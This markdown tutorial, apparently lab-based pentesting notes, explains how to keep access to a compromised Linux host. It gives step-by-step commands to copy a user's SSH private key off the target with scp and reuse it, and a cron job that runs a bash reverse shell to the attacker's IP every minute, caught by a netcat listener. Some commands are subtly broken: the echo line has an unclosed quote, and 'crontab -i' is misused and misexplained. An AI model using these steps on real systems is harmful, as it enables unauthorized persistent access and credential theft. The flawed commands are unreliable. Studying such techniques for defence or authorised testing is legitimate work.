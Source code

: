 # Linux Persistence

## Contents
- [Persistence Via SSH Keys](#persistence-via-ssh-keys)
  - [How SSH Works & How it Can Be Used for Persistence](#how-ssh-works--how-it-can-be-used-for-persistence)
  - [Generating SSH Keys](#generating-ssh-keys)
  - [Key Pair](#key-pair)
  - [Example](#example)
    - [Initial Access](#initial-access)
    - [Copy the id_rsa File](#copy-the-id_rsa-file)
    - [Persistence](#persistence)
- [Persistence Via Cron Jobs](#persistence-via-cron-jobs)
  - [Cron Jobs & Persistence](#cron-jobs--persistence)
  - [Anatomy of a Cron Job](#anatomy-of-a-cron-job)
  - [Example](#example-1)
    - [Initial Access](#initial-access-1)
    - [Check the Scheduled Cron Jobs](#check-the-scheduled-cron-jobs)
    - [Create a Cron Job](#create-a-cron-job)
    - [Add Cron Job to Crontab](#add-cron-job-to-crontab)
    - [Set Up a Listener](#set-up-a-listener)

## Persistence Via SSH Keys

### How SSH Works & How it Can Be Used for Persistence
- Linux is typically deployed as a server operating system and as a result Linux servers are typically accessed remotely via services (protocols) like SSH.
- If SSH is enabled and running on a Linux system that you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
- In most cases Linux servers will have key-based authentication enabled for the SSH service.
  - This allows the users to access the Linux system remotely without the need for a password.
- After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and then use that SSH private key for all future authentication and access.
  - **_The essential step in all of this is finding the private key on the target system_.**
- You could also generate a new public/private key pair, transfer the public key to the target Linux system, and use the private key to login. 

### Generating SSH Keys
```
ssh-keygen -t rsa -C "add any comment to label your key here"
```
- `-t rsa` : sets the type of algorithm to rsa
- `-C` : optional to add a short comment to "label" your key pair

### Key Pair
1. `id_rsa` : private key
2. `id_rsa.pub` : public key

### Example
> The following is from a lab. It shows the general process, commands, and techniques that can be replicated on other similar systems.

#### Initial Access
- We have gained access to a target Linux system via creds. Therefore we can login via ssh.
```
ssh compromised_username@[target ip]
```

#### Copy the id_rsa File
- We want to copy the `id_rsa` file from the compromised target account onto our attack system.
- Exit the target. Back in your attack machine, use the secure copy command: `scp`
  - scp copies files between hosts on a network.
  - It uses ssh for data transfer, and uses the same authentication and provides the same security as ssh.
```
# General Syntax:
[user]@[host1 or ip address]:/path/to/file-to-copy /path/to/local/copy-target
# Example: 
scp Syntax: scp compromised_username@[target ip]:~/.ssh/id_rsa .
```
- Once that copies to your local (attack) machine, you need to change the perms to what is expected of a private key
```
chmod 400 id_rsa      # this is required; ssh will pitch a fit if you don't
```
- Now you can use this private key to log into the target system via ssh.

#### Persistence
- Login with the ssh private key:
```
ssh -i id_rsa compromised_username@[target ip]
```
- `-i` : identity_file - Selects a file from which the identity (private key) for RSA or DSA authentication is read.
  - The default for ssh protocol version 1 is `~/.ssh/identity`
  - The default for ssh protocol version 2 is `~/.ssh/id_rsa` and `~/.ssh/id_dsa`
- That should log you onto the system without providing a password

----

## Persistence Via Cron Jobs

Reference: https://attack.mitre.org/techniques/T1053/

### Cron Jobs & Persistence
- Linux implements task scheduling through a utility called `cron`.
  - `cron` is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.
- An application (or script, etc.) that has been configured to run repeatedly with Cron is called a Cron Job.
  - After compromising a Linux systems...
  - We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.
  - You set up a Bash reverse shell command to run (and connect back to a Netcat listener) at certain intervals. That way, if you get kicked off or the machine reboots, etc. your cron job will "call home" and get you a reverse shell.

### Anatomy of a Cron Job
- The cron format has five time and date fields separated by at least one blank.
- An astersisk (`*`) in a field is the "wildcard" and indicates all legal values
- Therefore, five asterisks (`* * * * *`) means the cron job will run every minmute of every hour of every day of every month and every day of the week.
```
*  *  *  *  *    command to be executed
_  _  _  _  _
|  |  |  |  |
|  |  |  |  + -- day of the week  (0-7; Sunday is 0 and 7)
|  |  |  + ----- month            (1 - 12)
|  |  + -------- day of the month (1 - 31)
|  + ----------- hour             (0 - 23)
+ -------------- minute           (0 - 59)
```
### Example
> The following is from a lab. It shows the general process, commands, and techniques that can be replicated on other similar systems.

#### Initial Access
- We have gained access to a target Linux system via creds. Therefore we can login via ssh.
```
ssh compromised_username@[target ip]
```

#### Check the Scheduled Cron Jobs
- On the target machine:
```
cat /etc/cron*
```
#### Create a Cron Job
- You create a cron job by:
  - Creating your own cron file
  - Adding that cron file to the appropriate cron subdir
- Example:
```
echo "* * * * * /bin/bash -c 'bash -i &> /dev/tcp/[attack ip]/[port] 0>&1' > cron
cat cron  # to check
```
- `* * * * *` : run every minute of every hour of every day of every month of every week.
- Bash Stuff: 
  - `c string` : commands are read from string.
  - `>& (same as &>)` : redirect standard output (1) and standard error (2); i.e., 2>&1 
    - This means: `&>` redirects the standard output (fd 1) and error (fd 2) to the socket opened to the IP 192.166.95.2 which would be listening on port 1234 (the port you indicate in [port] ).
  - `0>&1` : redirect standard input (fd 0) to the same place as standard output (fd 1).
    - This would literally mean '0' (standard input) is attached to '1' (standard output).
    - Therefore, stdin (fd 0) is attached to stdout (fd 1) and (from the above:  &> ) we know that the stdin for this bash process is available to the attacker listening on port 1234.

#### Add Cron Job to Crontab
```
crontab -i cron
crontab -l
```
- `-i` : This option modifies the -r option to prompt the user for a 'y/Y' response before actually removing the crontab.
- `-r` : The current crontab will be removed.
- `-l` : -l : List the cronjobs in crontab (display the current crontab; i.e., table with scheduled cron jobs)
  - You should see your newly added reverse shell cron job.
- NOTE: This will be a cron job run with the perms of your current user account.
  -  This is not an elevated session.
  -  If you have elevated privileges, then use that account (i.e., root) to create your cron job. That way it executes with root's privileges.
 
#### Set Up a Listener
```
nc -nvlp 1234 
```
- Spin up a listener on your attack machine.
- You should get a connection within 1 minute.













